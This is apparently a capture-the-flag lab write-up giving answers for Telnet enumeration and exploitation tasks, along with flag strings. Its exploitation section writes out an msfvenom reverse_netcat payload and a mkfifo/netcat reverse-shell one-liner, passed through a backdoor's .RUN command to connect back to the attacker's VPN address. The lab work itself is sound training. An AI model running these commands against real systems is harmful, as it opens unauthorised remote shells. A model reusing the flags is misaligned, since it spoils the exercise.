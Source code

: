 > THM{smb_is_fun_eh?}

## 5. Understanding Telnet

- Protocol to execute commands on remote machines.
- Cleartext.
- `telnet [ip] [port]`

1. Application protocol
2. SSH
3. telnet 10.10.10.3 23
4. encryption

## 6. Enumerating Telnet

1. 1
  * `ping $IP`
  * `nmap $IP`
  * `nmap -p- $IP`
2. 8012
3. TCP
  * Unassigned: unknown service listening.
4. 0
5. N/A
6. a backdoor
  * `nmap -p8012 -sV $IP`
  * `sudo pacman -Sy inetutils`
  * `telnet $IP 8012`
7. SKIDY
8. N/A

## 7. Exploiting Telnet

CVE: Common Vulnerabilities and Exposures

1. N/A
  * `telnet $IP 8012`
2. SKIDY'S BACKDOOR
3. N
4. N/A
5. N/A
6. Y
  * `sudo pacman -Sy tcpdump`
  * `sudo tcpdump ip proto \\icmp -i tun0`
  * `.RUN ping $VPNIP -c 1`: We received the ping!
7. N/A
8. mkfifo
  * `sudo pacman -Sy metasploit`
  * `ip -o addr list tun0`
  * `msfvenom -p cmd/unix/reverse_netcat lhost=$VPNIP lport=4444 R`
9. nc -lvp 4444
10. N/A
  * `telnet $IP 8012`
  * `.RUN mkfifo /tmp/favfuh; nc $VPNIP 4444 0</tmp/favfuh | /bin/sh >/tmp/favfuh 2>&1; rm /tmp/favfuh`
11. `THM{y0u_g0t_th3_t3ln3t_fl4g}`
  * `cat flag.txt`
  * `.EXIT`
